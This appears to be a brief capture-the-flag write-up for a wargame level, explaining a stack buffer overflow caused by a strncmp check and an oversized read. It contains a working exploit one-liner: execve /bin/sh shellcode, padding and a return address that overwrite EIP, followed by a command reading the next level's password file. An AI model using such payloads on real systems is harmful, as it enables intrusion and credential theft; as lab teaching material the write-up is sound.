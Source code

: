 # Buffer Overflow

see source.c

## Analysis

The program prompts for a username and a password, if the user is verified it lead to password input.

Seeing that the verify_user_name function is using strncmp and not strcmp that means that we can add everything we want after 'dat_wil', then because the buffer on the main function is 64 bytes and we are reading 100 bytes that means we can get over the stack and replace eip to jump on a payload.

```
(python -c "print('dat_wil' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')" ; python -c "print('A' * 80 + '\x47\xa0\x04\x08')"; echo "cat /home/users/level02/.pass") | ./level01 
```
